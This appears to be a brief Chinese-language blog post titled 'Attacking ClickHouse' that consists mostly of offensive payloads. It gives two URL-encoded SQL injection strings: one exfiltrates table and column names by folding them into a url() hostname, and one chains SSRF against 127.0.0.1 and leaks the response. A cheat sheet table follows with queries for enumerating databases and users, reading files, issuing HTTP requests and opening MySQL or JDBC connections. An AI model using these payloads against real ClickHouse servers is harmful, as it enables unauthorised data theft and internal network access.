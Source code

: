 ```yaml
---
title: "攻击Clickhouse"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:22+08:00
draft: false
---
```


文档: <https://clickhouse.tech/docs/zh/>

file 函数可以读取文件, 但不能穿越到父目录

{{< figure src="/ox-hugo/2021-01-14_20-25-31_screenshot.png" >}}

报错注入, url 函数找不到 host, 抛出异常

```nil
')+or+(select+c+from+url('http://'||arrayStringConcat((select+groupUniqArray(table)+from+system.columns),',+')||'','CSV','c+String'))=('
```

SSRF, 结果中可能包含 SSRF 的响应内容(小写)

```nil
')+or+(select+c+from+url('http://RESULT-'||arrayStringConcat((select+groupArray(c)+from+url('http://127.0.0.1/','CSV','c+String')),unhex('0a'))||'','CSV','c+String'))=('
```

cheatsheet

| Goal                               | Payload                                                                                              |
|------------------------------------|------------------------------------------------------------------------------------------------------|
| Version                            | SELECT version()                                                                                     |
| Current DB                         | SELECT currentDatabase()                                                                             |
| List DB                            | SHOW databases OR SELECT \* FROM system.databases                                                    |
| List columns                       | SELECT \* FROM system.columns                                                                        |
| List tables                        | SELECT \* FROM system.tables                                                                         |
| Hostname                           | SELECT hostName()                                                                                    |
| Comment                            | SELECT 1 _**comment**_ OR SELECT 1—comment                                                           |
| Dummy table (dual)                 | SELECT \* FROM system.one                                                                            |
| Current User                       | SELECT ‘current_user’,user FROM system.processes WHERE query LIKE ‘%current_user%’                   |
| Current os_user                    | SELECT os_user FROM system.processes                                                                 |
| HTTP request                       | SELECT \* FROM url(‘<http://server>’, ‘CSV’, col String)                                             |
| Read file                          | SELECT \* FROM file(‘nameFile’, ‘CSV’, col String)                                                   |
| Unhex                              | SELECT unhex(‘746f62695f70697a6461’)                                                                 |
| Create an array of argument values | SELECT groupArray(x)                                                                                 |
| Concat array of strings            | SELECT arrayStringConcat(arr[, separator])                                                           |
| Connect to MySQL                   | mysql(‘host:port’, ‘database’, ‘table’, ‘user’, ‘password'[, replace_query, ‘on_duplicate_clause’]); |
| JDBC connection                    | SELECT \* FROM jdbc(‘jdbc:mysql://localhost:3306/?user=root&amp;password=root’, ‘schema’, ‘table’)   |
